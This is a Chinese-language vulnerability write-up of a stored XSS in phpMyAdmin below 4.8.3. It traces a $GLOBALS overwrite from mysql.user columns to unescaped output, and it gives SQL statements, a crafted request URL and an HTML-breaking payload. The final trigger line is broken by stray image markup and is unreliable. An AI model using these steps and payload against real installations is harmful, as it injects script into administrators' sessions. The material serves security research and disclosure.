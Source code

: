 Phpmyadmin \< 4.8.3 XSS
=======================

一、漏洞简介
------------

最近在审计phpmyadmin的时候发现了一个XSS漏洞，后来发现在版本大于4.8.3以后该漏洞被修复了。看了下之前公布的CVE，有个CVE和此漏洞很相似但没有漏洞细节，于是乎便有了这篇文章。

二、漏洞影响
------------

Phpmyadmin \< 4.8.3

三、复现过程
------------

在审计phpmyadmin时，我比较关注\$GLOBALS全局变量，该变量存储了本次请求的信息、phpmyadmin基本设置信息和phpmyadmin配置文件信息等。先看看/libraries/classes/Server/Privileges.php::3977的以下代码。

    foreach ($row as $key => $value) {
        $GLOBALS[$key] = $value;
    }

很明显，该处是\$GLOBALS的赋值操作，而\$row来自于对mysql.user表的查询结果，且\$user\_host\_condition可控，/libraries/classes/Server/Privileges.php::3966行

    public static function getDataForChangeOrCopyUser()
        {
            $queries = null;
            $password = null;

            if (isset($_REQUEST['change_copy'])) {
                $user_host_condition = ' WHERE `User` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_username']) . "'"
                    . ' AND `Host` = '
                    . "'" . $GLOBALS['dbi']->escapeString($_REQUEST['old_hostname']) . "';";
                $row = $GLOBALS['dbi']->fetchSingleRow(
                    'SELECT * FROM `mysql`.`user` ' . $user_host_condition
                );

既然上述代码会将mysql.user中符合条件的行的列名和值写入\$GLOBALS中,我们便可通过添加mysql.user的列来往\$GLOBALS中写入任意键值。清楚思路后，我们看看哪里调用了Privileges.php的getDataForChangeOrCopyUser函数,发现在server\_privileges.php::178中对该函数有调用。

    list($queries, $password) = Privileges::getDataForChangeOrCopyUser();

这时我们来试试向\$GLOBALS中写一个\$GLOBALS\[\'xz\'\]=\'aliyun\'。进入mysql库，执行以下2条sql语句向user表添加xz字段，并插入一条数据。

    ALTER TABLE user ADD xz varchar(255);
    INSERT INTO `user` (`Host`, `User`, `Password`, `Select_priv`, `Insert_priv`, `Update_priv`, `Delete_priv`, `Create_priv`, `Drop_priv`, `Reload_priv`, `Shutdown_priv`, `Process_priv`, `File_priv`, `Grant_priv`, `References_priv`, `Index_priv`, `Alter_priv`, `Show_db_priv`, `Super_priv`, `Create_tmp_table_priv`, `Lock_tables_priv`, `Execute_priv`, `Repl_slave_priv`, `Repl_client_priv`, `Create_view_priv`, `Show_view_priv`, `Create_routine_priv`, `Alter_routine_priv`, `Create_user_priv`, `Event_priv`, `Trigger_priv`, `Create_tablespace_priv`, `ssl_type`, `max_questions`, `max_updates`, `max_connections`, `max_user_connections`, `plugin`, `authentication_string`, `xz`) VALUES ('127.0.0.1', 'test', '*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', 'Y', '', '0', '0', '0', '0', '', '', 'aliyun');

在/libraries/classes/Server/Privileges.php::3980下断点

    $serverVersion = $GLOBALS['dbi']->getVersion();

然后构造http://127.0.0.1/phpMyAdmin-4.8.2/server\_privileges.php?change\_copy=aa&old\_username=test&old\_hostname=127.0.0.1&mode=5
参数请求，change\_copy随便给个参数即可，mode必须大于4否则新添加的数据会被删除。

![1.png](./resource/Phpmyadmin<4.8.3XSS/media/rId24.png)可以看到\$GLOBALS\[\'xz\'\]=\'aliyun\'已经成功赋值。

### 利用构造

有了可控的\$GLOBALS变量后，我们需要寻找触发点。要在一次请求便触发漏洞，公共页面是首选目标。通过全局搜索\$GLOBALS变量，发现在libraries/classes/Navigation/NavigationTree.php::1272的renderDbSelect函数中有使用未过滤的\$GLOBALS变量。

    $retval .= '<div>';
            $retval .= '<form action="index.php">';
            $retval .= Url::getHiddenFields($url_params);
            $retval .= '<select name="db" class="hide" id="navi_db_select">'
                . '<option value="" dir="' . $GLOBALS['text_dir'] . '">'

继续搜索调用renderDbSelect函数地方，发现libraries\\classes\\Navigation\\Navigation.php::62的getDisplay函数。

    public function getDisplay()
        {
            /* Init */
            $retval = '';
            $response = Response::getInstance();
            if (! $response->isAjax()) {
                $header = new NavigationHeader();
                $retval = $header->getDisplay();
            }
            $tree = new NavigationTree();
            if (! $response->isAjax()
                || ! empty($_REQUEST['full'])
                || ! empty($_REQUEST['reload'])
            ) {
                if ($GLOBALS['cfg']['ShowDatabasesNavigationAsTree']) {
                    // provide database tree in navigation
                    $navRender = $tree->renderState();
                } else {
                    // provide legacy pre-4.0 navigation
                    $navRender = $tree->renderDbSelect();

继续搜索实例化Naviagtion类并且调用了getDisplay函数的地方，发现libraries\\classes\\Header.php::440的getDisplay函数有调用。

    public function getDisplay()
        {
            $retval = '';
            ...(省略)
                    if ($this->_menuEnabled && $GLOBALS['server'] > 0) {
                        $nav = new Navigation();
                        $retval .= $nav->getDisplay();
                    }

搜索实例化Header-\>GetDisplay的方法，发现\\libraries\\classes\\Response.php::100的构造方法中实例化了Header类，而\$this-\_header又在\_getDisplay中被调用。\_getDisplay被\_htmlResponse调用，\_htmlResponse在response函数中被调用。

    private function __construct()
        {
            if (! defined('TESTSUITE')) {
                $buffer = OutputBuffering::getInstance();
                $buffer->start();
                register_shutdown_function(array($this, 'response'));
            }
            $this->_header = new Header();
            $this->_HTML   = '';
            $this->_JSON   = array();

\\libraries\\classes\\Response.php::266行

    private function _getDisplay()
        {
            // The header may contain nothing at all,
            // if its content was already rendered
            // and, in this case, the header will be
            // in the content part of the request
            $retval  = $this->_header->getDisplay();
            $retval .= $this->_HTML;
            $retval .= $this->_footer->getDisplay();
            return $retval;
        }

\\libraries\\classes\\Response.php::279行

    private function _htmlResponse()
        {
            echo $this->_getDisplay();
        }

\\libraries\\classes\\Response.php::438行

    public function response()
        {
            chdir($this->getCWD());
            $buffer = OutputBuffering::getInstance();
            if (empty($this->_HTML)) {
                $this->_HTML = $buffer->getContents();
            }
            if ($this->isAjax()) {
                $this->_ajaxResponse();
            } else {
                $this->_htmlResponse();
            }
            $buffer->flush();
            exit;
        }

这里注意\_\_construct中的register\_shutdown\_function函数，看php
manual，意思是说当脚本运行结束或遇到exit后会执行该response函数，![2.png](./resource/Phpmyadmin<4.8.3XSS/media/rId26.png)**意思就是说只要哪里实例化了Response类，在程序运行结束后就会执行response函数**。真好，回到server\_privileges.php::34行，发现有实例化Response。

    $response = Response::getInstance();
    $header   = $response->getHeader();
    $scripts  = $header->getScripts();

拥有以上调用链后，只需要控制\$GLOBAS的键为text\_dir,值为XSS
payload即可，进入mysql库，执行以下sql语句修改列名xz为text\_dir，并修改数据为XSS
Payload。

    ALTER TABLE `user` CHANGE `xz` `text_dir` VARCHAR(255) CHARACTER SET utf8 COLLATE utf8_bin NULL DEFAULT NULL;
    UPDATE `user` SET `text_dir` = '\"><img src><option dir=\"' WHERE `user`.`Host` = '127.0.0.1' AND `user`.`User` = 'test';

构造https://wiki.0-sec.org/img
src=\"https://wiki.0-sec.org/img/69c5e770161c4eaeb6d839977209edf2.png\"
alt=\"3.png\" class=\"large\" onclick=\"window.open(this.src)\" /\>成功触发XSS

参考链接
--------

> https://xz.aliyun.com/t/7797
